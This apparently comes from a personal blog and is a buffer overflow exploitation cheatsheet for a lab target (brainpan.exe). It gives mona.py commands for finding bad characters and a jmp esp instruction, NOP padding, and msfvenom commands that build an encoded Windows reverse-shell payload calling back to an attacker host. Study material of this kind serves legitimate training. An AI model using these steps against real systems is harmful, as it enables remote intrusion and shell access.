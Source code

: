 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### After getting control of EIP

Set a **working folder** </br>
`!mona config -set workingfolder C:\Users\shroudri\%p`


Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
`!mona bytearray -cpb "\x00"` <br>
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically <br>
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread` <br>
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread` <br>


List all available programs <br>
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp) <br>
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode <br>
`NOPS= "x90"*16`